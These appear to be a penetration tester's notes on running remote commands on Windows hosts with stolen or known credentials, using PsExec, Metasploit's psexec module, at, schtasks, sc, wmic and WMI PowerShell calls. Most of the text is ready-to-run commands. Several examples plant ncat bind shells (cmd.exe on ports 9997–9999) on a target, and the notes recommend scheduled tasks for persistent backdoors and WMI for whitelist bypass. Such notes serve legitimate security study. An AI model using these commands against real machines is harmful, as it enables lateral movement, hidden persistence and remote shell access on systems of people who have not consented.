

remote commands (Windows)
Prerequisite• Credential for the remote computer
Run Commands on a Remote Windows Machine
To run the commands below first we need to setup a connection with the remote machine
example set up a SMB session
C:\> net use \\[targetIP] /u:[admin_user]
1)
psexec ◇ free available from Microsoft Sysinternals but not built into Windows
C:\> psexec \\[targetIP] [-d] [-u user] [-p password] [command]
→ the command runs with local SYSTEM privileges on the target
-d → psexec don't wait for process to terminate (non-interactive), useful when invoking a backdoor process, like as a Netcat listener running in the background
PsExec the first time that is been executed create the PsExec service on that target machine and
is NOT cleaned up once finished. We have to go back and manually remove the PsExec service using the sc command. Note that PsExec module in Metasploit and the PsExec NSE script in Nmap do clean up the services once finished.
examples: C:\> psexec.exe \\192.168.1.118 ipconfig
C:\> psexec.exe \\192.168.1.118 cmd.exe #gained remote shell on the target machine
◇ psexec exploit module included in Metasploit
msf> use exploit/windows/smb/psexec
1- PsExec module establishes the connection
2- writes an executable with a pseudorandom name into the target's file system
3- creates a service on the target machine, with the service name being a pseudorandom string
4- the service run the executable payload that we have selected.
5- clean up once finished, it deletes the executable and removes the service
2)
at or
schtasks commands to
schedule a job a short time in the future. Useful for persistent BackDoors
C:\> sc \\[targetIP] query schedule #verify first that schedule service is RUNNING
C:\> sc \\[targetIP] start schedule #start schedule service if not running
C:\> net time \\[targetIP]
◇
at → simpler syntax but limited because we can not select a given user to run the commands(all jobs are run as “SYSTEM”). Moreover from Windows 8.1 the command is been deprecated replaced by schtasks.
C:\> at [\\targetIP] [HH:MM][A|P] [command]
C:\> at [\\targetIP] #verify the schedule
HH:MM → time for the job to start
A|P → A stand for AM. P stand for PM.
◇
schtasks →
C:\> schtasks /create /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency] /st [starttime] /sd [startdate] /tr [command]
C:\> schtasks /query /s [targetIP] #verify the schedule
/st [starttime] → HH:MM:SS format
/sc [frequency] → ONCE, MINUTE, HOURLY, DAILY, WEEKLY, ONSTART(every time the system starts),...
example: create a netcat listner on port 9999 of the target
C:\> schtasks /create /tn test1 /s 192.168.1.118 /u danie /p Pass /sc once /st 12:48 /tr "C:\Users\danie\Desktop\ncat\ncat.exe --exec cmd.exe -vnl 9999"
C:\> ncat.exe 192.168.1.118 9999 #to connect to the shell created
3)
sc make a command into a service and run it
Note that there must be a space between “binpath=” and and the command that usually start with the quotation mark
" C:\> sc \\[targetIP] create [svcname] binpath= [command]
C:\> sc \\[targetIP] query [svcname]
C:\> sc \\[targetIP] start [svcname]
the service [svcname] will run for only 30 seconds after that if not receive a call Windows kills it and return an error
 example: create a netcat listner on port 9998 of the target
C:\> sc \\192.168.1.118 create test5 binpath= "C:\Users\danie\Desktop\ncat\ncat.exe --exec cmd.exe -vnl 9998"
C:\> sc \\192.168.1.118 query test5
C:\> sc \\192.168.1.118 start test5 #we can check the listener on the target machine with: netstat -ano | find ":9998"
## in a new window run the next command ##
C:\> ncat.exe 192.168.1.118 9998 #we have to hurry to run the this command because we have the listener only for 30 seconds
6)
wmic command, built in to WinXP Pro through Windows 10, can be used to manage Windows 2000 and later systems
C:\> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] #create process
C:\> wmic /node:192.168.1.118 /user:danie /password:Pass process where processid="[PID]" delete #delete process
create a netcat listner on port 9997 of the target
C:\> wmic /node:192.168.1.118 /user:danie /password:Pass process call create "C:\Users\danie\Desktop\ncat\ncat.exe --exec cmd.exe -vnl 9997"
C:\> ncat.exe 192.168.1.118 9997 #to connect to the shell created
7)
Get-WmiObject This allow us to create arbitrary processes that will be run as a child process of the process WmiPrvSE.exe(WMI provider host) process.
Whitelist bypass: This can be beneficial in regards to execute a process through other that is likely already a trusted one
PS> (Get-WmiObject -List Win32_Process).Create("Payload.exe")8)
Invoke-WmiMethod Very similar to the above
Get-WmiObject PS> Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList Payload.exe -ComputerName 192.168.147.136 -Credential <username>